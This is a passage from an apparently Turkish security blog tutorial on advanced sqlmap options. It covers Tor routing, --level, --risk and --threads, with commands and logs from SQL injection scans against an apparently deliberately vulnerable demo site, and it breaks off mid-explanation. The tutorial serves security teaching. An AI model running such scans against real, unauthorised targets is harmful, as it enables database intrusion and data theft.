 

<figure class="wp-block-table"><table><tbody><tr><td>12</td><td><code>[10:11:31] [INFO] checking Tor connection</code><code>[10:11:32] [INFO] Tor is properly being used</code></td></tr></tbody></table></figure>



<h2 id="level-risk-parametreleri">Level – Risk Parametreleri</h2>



<p>Söz konusu parametreler sqlmap’in hangi testleri yapacağını belirtir. Ön tanımlı olarak&nbsp;<code>--level</code>&nbsp;parametresi 1 olarak gelir ve 1-5 arası değer alabilir.&nbsp;<code>--risk</code>&nbsp;parametresinin varsayılan değeri 1’dir ve 1-3 arası değer alabilir. Örnek case üzerinden gidecek olursak, şu komutu çalıştırdığımızda;</p>



<figure class="wp-block-table"><table><tbody><tr><td>1</td><td><code>sqlmap -u "<a href="http://php.testsparker.com/artist.php?id=test">http://php.testsparker.com/artist.php?id=test</a>" --dbs</code></td></tr></tbody></table></figure>



<p>Çeşitli denemelerin ardından sqlmap’in şu hatayı verdiğini görürüz:</p>



<figure class="wp-block-table"><table><tbody><tr><td>12</td><td><code>[10:33:23] [WARNING] GET parameter 'id' does not seem to be injectable</code><code>[10:33:23] [CRITICAL] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp'). If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could retry with an option '--tamper' (e.g. '--tamper=space2comment')</code></td></tr></tbody></table></figure>



<p>Sqlmap, hedefe uygun testi gerçekleştirmemiş ve bu yüzden hedefte SQL Injection’ın var olduğunu doğrulayamamıştır. Şimdi ise komutumuza SQL sorgu denemelerini çeşitlendiren&nbsp;<code>--risk</code>&nbsp;parametresi ve prefix, suffix, payload çeşitlerini belirleyen&nbsp;<code>--level</code>&nbsp;parametresini uygun değerleriyle ekliyoruz:</p>



<figure class="wp-block-table"><table><tbody><tr><td>1</td><td><code>sqlmap -u "<a href="http://php.testsparker.com/artist.php?id=test">http://php.testsparker.com/artist.php?id=test</a>" --dbs --risk=3 --level=3</code></td></tr></tbody></table></figure>



<p>Uzun bir bekleyişin ardından “Boolean-based-blind” ve “AND/OR time based blind” türünde SQL Injection açığının bulunduğunu öğrenmiş olduk. Ayrıca veri tabanı isimlerini bulmak için denemelere başladı:</p>



<figure class="wp-block-image"><a href="https://www.netsparker.com.tr/blog/web-guvenligi/ileri-seviye-sqlmap-kullanimi/#"><img src="https://d4qkvw08lssf8.cloudfront.net/statics/img/drive/Ileri-Seviye-Sqlmap-Kullanimi-05.png" alt="Risk ve Level Parametrelerinin Kullanımına İlişkin Örnek Görüntüsü" /></a></figure>



<p>Not: Risk ve level değerlerini artırdığınızda yapılan testlerin sayısı artar. Bu testleri bir nebze olsun hızlandırabilmek için&nbsp;<code>--threads</code>&nbsp;parametresini kullanırız. Bu parametreyle eş zamanlı bağlantı sayısını değiştirmemiz mümkün. Varsayılan değeri 1 iken daha fazla payload’un eş zamanlı olarak test edilmesini sağlamak için 10 değerini verebiliriz. Ek olarak&nbsp;<code>--eta</code>&nbsp;parametresiyle, yapılan işlemler için tahmini bitiş süresi bir progress satırı şeklinde ekrana yansıtılmaktadır. Örneğin:</p>
